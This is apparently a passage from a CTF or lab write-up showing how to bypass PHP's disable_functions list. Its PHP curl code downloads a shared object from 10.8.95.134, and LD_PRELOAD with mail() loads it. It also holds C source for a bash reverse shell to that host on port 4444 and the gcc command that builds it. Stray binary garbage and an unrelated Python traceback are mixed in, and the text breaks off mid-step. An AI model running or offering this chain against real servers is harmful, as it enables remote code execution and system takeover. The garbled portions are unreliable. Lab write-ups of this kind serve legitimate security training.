 ```jsx
exec, system, popen, proc_open, proc_nice, shell_exec, passthru, dl, pcntl_alarm, pcntl_async_signals, pcntl_errno, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_rfork, pcntl_setpriority, pcntl_signal_dispatch, pcntl_signal_get_handler, pcntl_signal, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_unshare, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig²B”0øôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@
code> $ch = curl_init('http://10.8.95.134/shell.so');curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);file_put_contents('/tmp/shell.so', curl_exec($ch)); curl_close($ch);
²B”0øôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@CàÐÐøôô>==€@
code> putenv('LD_PRELOAD=/tmp/shell.so'); mail('a','a','a','a');
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/urllib3/connectionpool.py", line 534, in _make_request                                                                               
    response = conn.getresponse()
  File "/usr/lib/python3/dist-packages/urllib3/connection.py", line 516, in getresponse                                                                                     
    httplib_response = super().getresponse()
  File "/usr/lib/python3.13/http/client.py", line 1430, in getresponse
    response.begin()
    ~~~~~~~~~~~~~~^^
  File "/usr/lib/python3.13/http/client.py", line 331, in begin
    version, status, reason = self._read_status()
                              ~~~~~~~~~~~~~~~~~^^
  File "/usr/lib/python3.13/http/client.py", line 292, in _read_status
    line = str(self.fp.readline(_MAXLINE + 1), "iso-8859-1")
               ~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/socket.py", line 719, in readinto
    return self._sock.recv_into(b)
           ~~~~~~~~~~~~~~~~~~~~^^^
TimeoutError: timed out
.....
```

shell

```jsx
└─$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  system("bash -c \"bash -i >& /dev/tcp/10.8.95.134/4444 0>&1\"");
}

```

Compiling it:

```jsx
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Serving it via a simple HTTP server:
